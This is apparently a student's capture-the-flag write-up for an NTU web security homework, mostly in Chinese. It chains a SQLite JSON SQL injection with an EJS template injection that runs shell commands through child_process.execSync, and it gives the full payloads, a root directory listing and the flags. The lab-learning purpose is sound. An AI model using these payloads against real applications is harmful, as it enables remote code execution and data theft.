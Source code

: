 ```yaml
---
title: Simple Web 0x42(2023 HW - Double Injection - FLAG2)
tags: [eductf, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x42(2023 HW - Double Injection - FLAG2)
<!-- more -->

## Background
Node JS ejs SSTI

## Source code
呈上題

## Recon
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)

## Exploit - Ejs SSTI RCE
* Payload 1:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("ls -al /").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result:
        ```
        total	76	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	.	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	..	
        -rwxr-xr-x	1	root	root	0		Dec	18	18:54	.dockerenv	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	bin	
        drwxr-xr-x	5	root	root	340		Dec	18	18:54	dev	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	etc	
        -rw-r--r--	1	root	root	28		Dec	18	17:15	flag1.txt	
        -rw-r--r--	1	root	root	23		Dec	18	17:15	flag2-1PRmDsTXoo3uPCdq.txt	
        drwxr-xr-x	1	root	root	4096	Dec	18	17:15	home	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	lib	
        drwxr-xr-x	5	root	root	4096	Dec	7	09:43	media	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	mnt	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	opt	
        dr-xr-xr-x	497	root	root	0		Dec	18	18:54	proc	
        drwx------	1	root	root	4096	Dec	11	18:36	root	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	run	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	sbin	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	srv	
        dr-xr-xr-x	13	root	root	0		Dec	18	18:54	sys	
        drwxrwxrwt	1	root	root	4096	Dec	22	17:16	tmp	
        drwxr-xr-x	1	root	root	4096	Dec	18	13:27	usr	
        drwxr-xr-x	12	root	root	4096	Dec	7	09:43	var	
        ```
* Payload 2:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("cat /flag2-1PRmDsTXoo3uPCdq.txt").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result: `FLAG{ezzzzz_sqli2ssti}`

Flag: `FLAG{ezzzzz_sqli2ssti}`

## 補充: How to debug it?
這邊示範如何用vscode debug這個project
1. 可以先看[這個文章](https://hackmd.io/@SBK6401/HkgkDNsPp)準備一些前置作業
2. 在文章中有提到，docker幫忙做的事情，現在要自己完成
    ```bash
    $ sudo touch /flag1.txt ; sudo chmod 777 /flag1.txt ; sudo echo "test" > /flag1.txt
    $ sudo node init-db.js ; sudo chmod 444 /etc/db.sqlite3
    ```
3. 接著就可以開始debug app.js了

## Reference
[CTF 中的 EJS 漏洞筆記](https://blog.huli.tw/2023/06/22/ejs-render-vulnerability-ctf/?ref=blog.splitline.tw)
[AIS3-EOF-CTF-2019-Quals - echo WP](https://github.com/CykuTW/My-CTF-Challenges/tree/master/AIS3-EOF-CTF-2019-Quals/echo)
[ejs RCE CVE-2022-29078 bypass](https://inhann.top/2023/03/26/ejs/)